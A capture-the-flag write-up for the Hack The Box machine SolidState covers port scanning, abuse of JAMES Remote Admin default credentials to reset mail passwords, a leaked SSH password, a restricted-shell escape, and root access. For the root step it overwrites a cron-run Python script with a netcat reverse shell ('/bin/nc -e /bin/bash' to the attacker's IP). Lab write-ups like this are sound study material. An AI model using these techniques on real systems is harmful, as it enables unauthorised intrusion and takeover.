

**Start 08:06 16-03-2025**

---
```
Scope:
10.10.10.51
```
## Recon

### Nmap

```bash
sudo nmap solid -p- -sC -sV -sT -T5 -vvvv --min-rate 5000 --reason

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        syn-ack JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello solid (10.10.16.3 [10.10.16.3])
80/tcp   open  http        syn-ack Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp  open  pop3        syn-ack JAMES pop3d 2.3.2
119/tcp  open  nntp        syn-ack JAMES nntpd (posting ok)
4555/tcp open  james-admin syn-ack JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also tried `161` UDP for good measure:

```bash
sudo nmap solid -p161 -sC -sV -sU -T5 -vvvv --min-rate 5000 --reason

Host is up, received echo-reply ttl 63 (0.086s latency).
Scanned at 2025-03-16 08:09:29 CET for 1s

PORT    STATE  SERVICE REASON              VERSION
161/udp closed snmp    port-unreach ttl 63
```

Right away I notice the **JAMES Remote Admin 2.3.2** service which I look up:


Good to know! Let's enumerate the rest first.

### 25/TCP - SMTP


Relay attack isn't possible.


After some minutes of scanning I didn't find any names, moving on.

### 80/TCP - HTTP


This was about the most useful I could find in a quick skim. Let's run `feroxbuster` and enumerate the web server.


Just some static assets, moving on.

### 110/TCP - POP3

We don't have any user info so we can't do anything here *yet*.

### 119/TCP - NNTP

Unknown what this port does atm, but I think it's linked to the next port.

### 4555/TCP - James-Admin

The PoC we previously found in [[#Nmap]] gave us some interesting info:


It appears the default creds are `root:root`, let's try it out:


Well it appears someone didn't change the default creds, good for us.


I went ahead and added these to a user list, in case I want to spray later on:


It seemed to be sort of a dead end though:


Let's instead download over the PoC and run that in order to get RCE.

### PoC

Unfortunately it wouldn't fire:


However when we check the service via `nc` we now see the following:


This means the exploit tried to add a new user.

:::note
I also tried the older version but that didnt work either for RCE.
:::

What we can do instead is just change passwords of the users since we're an admin account.


Awesome, we were able to find the creds.

```
mindy
P@55W0rd1!2@
```

## Foothold

Upon login we notice that the previously set up exploit now fires:


Not to worry, couple of `enter` further we are down to the normal SSH shell.


### user.txt


Due to the presence of the `.rhosts` file it appears that the server is running `r-services`, however we can't view the file since it is owned by *root*.

## Enumeration

I tried to enumerate the system but it wouldn't give:


Let's try another approach, since we're in this jail I remembered that just now the script would indeed launch upon making the `ssh` connection. Meaning that the reverse shell HIGHLY LIKELY will execute if we retry it with a listener.


Just as imagined, we indeed receive a reverse shell, let's see if we can do some more commands with this one.


It appears that this shell is way more interactive, let's continue our approach.

I downloaded over `pspy32`:




I let it run for a bit and checked back.

After a few minutes I noticed that *root* had a script running:


I bet we can change this up in order to get ourselves a root shell.


Sure can! Let's go ahead and change it up.

## Privilege Escalation

```bash
echo "
#!/usr/bin/env python
import os
import sys
os.system('/bin/nc -e /bin/bash 10.10.16.3 81')
" > /opt/tmp.py
```

After a few minutes of waiting:


Hell yeah.

### root.txt


---

**Finished 09:39 16-03-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
